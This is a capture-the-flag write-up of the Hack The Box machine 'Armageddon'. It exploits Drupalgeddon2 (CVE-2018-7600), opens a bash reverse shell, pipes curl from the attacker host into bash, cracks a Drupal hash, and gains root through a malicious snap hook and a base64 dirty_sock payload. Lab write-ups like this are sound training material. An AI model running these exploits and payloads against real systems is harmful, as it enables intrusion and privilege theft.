






# Resolution summary

- Target runs **Drupal 7.56** which is vulnerable to **Drupalgeddon2** (**CVE-2018-7600**), allowing to get a low privileged shell as apache user
- Internal enumeration reveals that the target runs a **MySQL database** which can be accessed hunting for its credentials
- From the DB it is possible to retrieve brucetherealadmin hashed password and **crack it** offline
- brucetherealadmin user can run **snap** with high privileges. It is possible to craft a **malicious snap** package in order to execute custom code with high privileges and obtain a high privileged shell

## Improved skills

- Drupalgeddon2 (CVE-2018-7600) exploitation
- Password hunting
- snap privilege escalation (from scratch and using dirty_sock)

## Used tools

- nmap
- gobuster
- searchsploit
- hashcat

## Video

<iframe width="660" height="415" src="https://www.youtube.com/embed/kgD6jd_HxM4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Armageddon]
└─$ sudo nmap -sS -p- 10.10.10.233 -oN scans/all-tcp-ports.txt -v
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Armageddon]
└─$ sudo nmap -sT -sV -sC -A -p22,80 10.10.10.233 -oN scans/open-tcp-ports.txt
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.16 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Linux 3.10 - 4.11 (93%), Linux 5.1 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

# Enumeration

## Port 80 - HTTP

Nmap discovered only two open services running on the target: an ssh service on port 22 (OpenSSH 7.4) and an Apache web server running on port 80 which disclosed different versions and information, including the target OS and the exact version of PHP and Drupal.

The web application was the following:



It were enumerated files and directories:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Armageddon]
└─$ gobuster dir -u http://10.10.10.233 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o scans/p80-directories.txt
...
/modules              (Status: 301) [Size: 236] [--> http://10.10.10.233/modules/]
/includes             (Status: 301) [Size: 237] [--> http://10.10.10.233/includes/]
/scripts              (Status: 301) [Size: 236] [--> http://10.10.10.233/scripts/] 
/themes               (Status: 301) [Size: 235] [--> http://10.10.10.233/themes/]  
/misc                 (Status: 301) [Size: 233] [--> http://10.10.10.233/misc/]    
/profiles             (Status: 301) [Size: 237] [--> http://10.10.10.233/profiles/]
/sites                (Status: 301) [Size: 234] [--> http://10.10.10.233/sites/]

┌──(kali㉿kali)-[~/CTFs/HTB/box/Armageddon]
└─$ gobuster dir -u http://10.10.10.233 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -o scans/p80-files.txt
...
/cron.php             (Status: 403) [Size: 7388]
/xmlrpc.php           (Status: 200) [Size: 42]  
/update.php           (Status: 403) [Size: 4057]
/install.php          (Status: 200) [Size: 3172]
/index.php            (Status: 200) [Size: 7440]
/.htaccess            (Status: 403) [Size: 211] 
/web.config           (Status: 200) [Size: 2200]
/robots.txt           (Status: 200) [Size: 2189]
/.html                (Status: 403) [Size: 207] 
/.htpasswd            (Status: 403) [Size: 211] 
/.htm                 (Status: 403) [Size: 206] 
/.htpasswds           (Status: 403) [Size: 212] 
/.gitignore           (Status: 200) [Size: 174] 
/.htgroup             (Status: 403) [Size: 210] 
/authorize.php        (Status: 403) [Size: 2824]
/.htaccess.bak        (Status: 403) [Size: 215] 
/.htuser              (Status: 403) [Size: 209] 
/.htc                 (Status: 403) [Size: 206] 
/.ht                  (Status: 403) [Size: 205]
```

But no luck.

A new account was created, however an error occurred:



`Error: Unable to send e-mail. Contact the site administrator if the problem persists.`

Reading the contents of **robots.txt** it was possible to identify the exact version of Drupal:

```
...
User-agent: *
Crawl-delay: 10
...
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
...
```



Once obtained the exact version it was searched on Exploit-DB for existing exploits targeting this exact version:



# Exploitation

## Drupalgeddon2 - CVE-2018-7600

**Drupal 7.56** is vulnerable to **CVE-2018-7600**, also known as **Drupalgeddon2**:

>[!warning]
>Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or common module configurations.

The PoC found on Exploit-DB was written for Metasploit, however a different one, **written in python**, was [available on GitHub](https://github.com/pimps/CVE-2018-7600) and provided a handy remote code execution:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Armageddon/exploit]
└─$ python3 drupa7-CVE-2018-7600.py -c id http://10.10.10.233

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-kmITQbaSIIYQosXDMhx9WqGPcsWC76WQY4PviJGMRZ8
[*] Triggering exploit to execute: id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

In order to obtain an interactive reverse shell it was first **enumerated the path to the bash shell** on the target:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Armageddon/exploit]
└─$ python3 drupa7-CVE-2018-7600.py -c 'which bash' http://10.10.10.233

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-1eQEjWcQiE4n6N7v_3C91NRGfSlWHusR6hEXzf4lWKw
[*] Triggering exploit to execute: which bash
/usr/bin/bash
```

After that a bash reverse shell was downloaded and executed on the target.
Bash reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Armageddon/exploit]
└─$ echo '/usr/bin/bash -i >& /dev/tcp/10.10.14.24/443 0>&1' > rev.sh

┌──(kali㉿kali)-[~/…/HTB/box/Armageddon/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Downloaded and executed the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Armageddon/exploit]
└─$ python3 drupa7-CVE-2018-7600.py -c 'curl 10.10.14.24/rev.sh | /usr/bin/bash' http://10.10.10.233

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-fHJFX_5z9MDk5LrRfNrgjwIHRMsbcxb0UTQwhm1K8a8
[*] Triggering exploit to execute: curl 10.10.14.24/rev.sh | /usr/bin/bash
```

Obtained the shell back:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Armageddon/exploit]
└─$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.233] 37696
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

# Lateral Movement to user

User local enumeration showed only one user:

```bash
bash-4.2$ cat /etc/passwd | grep -v nologin
cat /etc/passwd | grep -v nologin
root:x:0:0:root:/root:/bin/bash
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```

Because the target ran a Drupal application, it was possible that the user reused the same password to connect the application to the DB or to register on the the site.

Hardcoded passwords were thus searched within Drupal's configuration files:

Searched hardcoded passwords:

```bash
bash-4.2$ grep -ri "password" . --color 2>/dev/null
...
./sites/default/settings.php: *     'password' => 'password',
./sites/default/settings.php:      'password' => 'CQHE<redacted>',
...
bash-4.2$ cat ./sites/default/settings.php | grep -C5 password
...
--
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHE<redacted>',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
...
```

The **drupaluser** password didn't provide SSH access to the box, so it was used to access the db:

```bash
bash-4.2$ mysql -h localhost -u drupaluser -p
mysql -h localhost -u drupaluser -p
Enter password: CQHE<redacted>

****struck****
```

The command stuck because the shell was not an interactive shell. To overcome the problem the DB was enumerated using the **non-interactive mysql client syntax**:

```bash
bash-4.2$ mysql -h localhost -u drupaluser --password='CQHE<redacted>' -e 'show databases;'
w databases;'lhost -u drupaluser --password='CQHE<redacted>' -e 'sho
Database
information_schema
drupal
mysql
performance_schema
bash-4.2$ mysql -h localhost -u drupaluser --password='CQHE<redacted>' -e 'use drupal; show tables;'
 drupal; show tables;'drupaluser --password='CQHE<redacted>' -e 'use
Tables_in_drupal
actions
authmap
...
users
users_roles
variable
watchdog

bash-4.2$ mysql -h localhost -u drupaluser --password='CQHE<redacted>' -e 'use drupal; select * from users;'
 drupal; select * from users;'er --password='CQHE<redacted>' -e 'use
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.<redacted>      admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu        a:1:{s:7:"overlay";i:1;}
3       maoutis $S$DwGOcpJqCIm5IFUnN5uIZAfvmcUVfiCzIkxidLjIBdIkJ0DJy2/o maoutis@hackthebox.htb                  filtered_html   1619776834      0       0       0       Europe/London           0       maoutis@hackthebox.htb  NULL
4       maoutis2        $S$DPO4Jtqc/QPUv6GtEnxTZQnV0/LIGoQwJ7ksoN2gngjefK4DFQOT maoutis@protonmail.com                  filtered_html   1619782683      0       0       0       Europe/London           0       maoutis@protonmail.com  NULL
```

The hash for the brucetherealadmin was then extracted and **brute-forced using hashcat**:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Armageddon/loot]
└─$ hashid brucetherealadmin.hash
--File 'brucetherealadmin.hash'--
Analyzing '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.<redacted>'
[+] Drupal > v7.x 
--End of file 'brucetherealadmin.hash'--

┌──(kali㉿kali)-[~/…/HTB/box/Armageddon/loot]
└─$ hashcat -h | grep -i drupal
   7900 | Drupal7                                          | Forums, CMS, E-Commerce

┌──(kali㉿kali)-[~/…/HTB/box/Armageddon/loot]
└─$ hashcat brucetherealadmin.hash /usr/share/wordlists/rockyou.txt -m7900 --force
...
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.<redacted>:bo<redacted>
...

┌──(kali㉿kali)-[~/…/HTB/box/Armageddon/loot]
└─$ ssh brucetherealadmin@10.10.10.233
brucetherealadmin@10.10.10.233's password: 
Last failed login: Fri Apr 30 13:50:50 BST 2021 from 10.10.14.24 on ssh:notty
There were 2 failed login attempts since the last successful login.
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

# Privilege Escalation

## Local enumeration

Enumerated sudo capabilities for bruce:

```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

Enumerated snap version:

```bash
[brucetherealadmin@armageddon ~]$ snap version
snap    2.47.1-1.el7
snapd   2.47.1-1.el7
series  16
centos  7
kernel  3.10.0-1160.6.1.el7.x86_64
```

## Snapd privilege escalation

Searched for an existing PoC to escalate privileges abusing snap and found it on [HackTricks](https://gtfobins.github.io/gtfobins/snap/)

>[!warning]
>If snap is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and **may be used to access the file system, escalate or maintain privileged access**.

Created the malicious package (notice the `amd64` parameter instead of `all` during the `fpm` package creation):

```bash
┌──(kali㉿kali)-[/tmp]
└─$ COMMAND='echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd'

┌──(kali㉿kali)-[/tmp]
└─$ cd $(mktemp -d)

┌──(kali㉿kali)-[/tmp/tmp.gOIiDpu1dV]
└─$ mkdir -p meta/hooks

┌──(kali㉿kali)-[/tmp/tmp.gOIiDpu1dV]
└─$ printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install

┌──(kali㉿kali)-[/tmp/tmp.gOIiDpu1dV]
└─$ chmod +x meta/hooks/install

┌──(kali㉿kali)-[/tmp/tmp.gOIiDpu1dV]
└─$ fpm -n xxxx -s dir -t snap -a amd64 meta
Created package {:path=>"xxxx_1.0_all.snap"}

┌──(kali㉿kali)-[/tmp/tmp.gOIiDpu1dV]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Downloaded and executed the malicious package :

```bash
[brucetherealadmin@armageddon ~]$ curl 10.10.14.24/xxxx_1.0_all.snap -o xxxx_1.0_all.snap
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4096  100  4096    0     0  32110      0 --:--:-- --:--:-- --:--:-- 32507

[brucetherealadmin@armageddon ~]$ sudo snap install xxxx_1.0_all.snap --dangerous --devmode
error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install": exit status 1)

[brucetherealadmin@armageddon ~]$ cat /etc/passwd | grep root2
root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash
```

Escalated to root using the injected `root2` user:

```bash
[brucetherealadmin@armageddon ~]$ su root2
Password:

[root@armageddon brucetherealadmin]# id && hostname && cat /root/root.txt && ifconfig -a
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
armageddon.htb
0ec8a6e6cb...
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.233  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::7648:5ea1:5371:b3b5  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::69d1:bb00:780c:f997  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:bb:03  txqueuelen 1000  (Ethernet)
        RX packets 274214  bytes 62806887 (59.8 MiB)
        RX errors 0  dropped 250  overruns 0  frame 0
        TX packets 258557  bytes 100237774 (95.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 496  bytes 50072 (48.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 496  bytes 50072 (48.8 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```



The second way to craft the malicious snap is to copy the snap package from an already existing exploit (this was how I realized that using all instead of amd64 did not work on this box):
PoC: 

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/46362)

```bash
[brucetherealadmin@armageddon ~]$ python3 -c 'print("aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw" + "A"*4256 + "==")' | base64 -d > privesc.snap
[brucetherealadmin@armageddon ~]$ sudo snap install privesc.snap --devmode --dangerous
dirty-sock 0.1 installed
[brucetherealadmin@armageddon ~]$ tails /etc/passwd
-bash: tails: command not found
[brucetherealadmin@armageddon ~]$ tail /etc/passwd
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
dirty_sock:x:1001:1001::/home/dirty_sock:/bin/bash
[brucetherealadmin@armageddon ~]$ su dirty_sock
Password:
[dirty_sock@armageddon brucetherealadmin]$ clear
[dirty_sock@armageddon brucetherealadmin]$ sudo -i

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dirty_sock:
[root@armageddon ~]# whoami && id && hostname && ifconfig && wc /root/root.txt
root
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
armageddon.htb
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.233  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::7648:5ea1:5371:b3b5  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::69d1:bb00:780c:f997  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:67:2f  txqueuelen 1000  (Ethernet)
        RX packets 796  bytes 74029 (72.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 495  bytes 75975 (74.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 194  bytes 17960 (17.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 194  bytes 17960 (17.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```



# Trophy

>[!quote]
>It is not the monsters we should be afraid of; it is the people that don’t recognize the same monsters inside of themselves.
>
>\- Shannon L. Alder

>[!success]
>**User.txt**
>d598c36fac3857008d91bb11f781410d

>[!success]
>**Root.txt**
>0ec8a6e6cb78061f79ae7a0842c3fd04

**/etc/shadow**

```bash
[root@armageddon ~]# cat /etc/shadow | grep '\$'
root:$6$OhKUwkvR$.uL.mlYJOz.ubK/FmXouGbU7vCVCG9s00K7R.ny9ryM.vXNdwZhOGCcq7e3XcbA5UpqUp.9eKY4hfLy9m5aU7/:18610:0:99999:7:::
